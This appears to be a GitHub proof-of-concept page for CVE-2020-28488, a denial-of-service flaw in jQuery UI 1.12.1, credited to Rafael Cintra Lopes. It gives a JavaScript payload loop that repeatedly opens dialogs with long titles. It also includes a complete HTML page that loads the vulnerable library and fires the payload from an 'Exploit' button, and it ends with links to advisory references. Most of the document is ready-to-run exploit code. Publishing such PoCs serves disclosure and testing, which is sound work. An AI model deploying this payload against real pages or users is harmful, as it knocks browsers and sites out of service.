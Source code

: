 # CVE-2020-28488
Denial of Service (DoS) - jQuery UI 1.12.1 - Exploit

## Payload
```
for (var i = 0; i < 10; i++) {
    $("div").dialog({title:'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'});
}
```

## PoC
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DoS - jQuery UI 1.12.1</title>
</head>
<body>
    <h2>DoS - jQuery UI 1.12.1</h2>

    <div>
        <button onclick="exploit()">Exploit</button>
    </div>

    <p>PoC by Rafael Cintra Lopes</p>

    <script src="https://code.jquery.com/jquery-3.5.1.min.js" integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0=" crossorigin="anonymous"></script>
    <script src="https://code.jquery.com/ui/1.12.1/jquery-ui.min.js" integrity="sha256-VazP97ZCwtekAsvgPBSUwPFKdrwD3unUfSGVYrahUqU=" crossorigin="anonymous"></script>

    <script>
        function exploit(){
            for (var i = 0; i < 10; i++) {
                $("div").dialog({title:'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'});
            }
        }
    </script>
</body>
</html>
```

## Reference links
- [CVE-2020-28488](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28488)
- [Snyk](https://snyk.io/vuln/SNYK-JS-JQUERYUI-1052825)
- [jQuery UI Report](https://bugs.jqueryui.com/ticket/15390)